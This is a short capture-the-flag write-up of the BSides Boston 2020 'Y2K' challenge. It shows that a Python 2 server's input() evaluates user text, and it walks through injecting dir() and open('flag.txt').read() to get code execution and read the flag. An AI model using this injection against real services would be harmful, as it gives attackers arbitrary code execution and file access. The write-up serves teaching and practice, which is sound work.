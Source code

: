 ```yaml
---
title: "BSides Boston 2020: Y2K"
tags: [CTF, python]
date: 2020-09-27
---
```



# Challenge
Prompt:

![png](/images/bsides-writeups/y2k_prompt.png)

We are given a netcat command, and when we connect we get the prompt:

```
What year do YOU think the world will end?
```

We can give it an integer value and it spits it back:
```
Yeah! I agree with you! I also think the world will end in the year
1234
```

Providing a non-integer output throws an error:
```
Traceback (most recent call last):
  File "/home/challenge/server.py", line 4, in <module>
    end = input()
  File "<string>", line 1, in <module>
NameError: name 'a' is not defined
```

So we are dealing with a python script and it is trying to reference our input.
Lets give it a command!

```
What year do YOU think the world will end?
dir()
Yeah! I agree with you! I also think the world will end in the year
['__builtins__', '__doc__', '__file__', '__name__', '__package__']
```

We have code execution. Fantastic.
Let's see if we can read files...

```
What year do YOU think the world will end?
open('flag.txt').read()
Yeah! I agree with you! I also think the world will end in the year
flag{we_are_saved_from_py2_k}
```
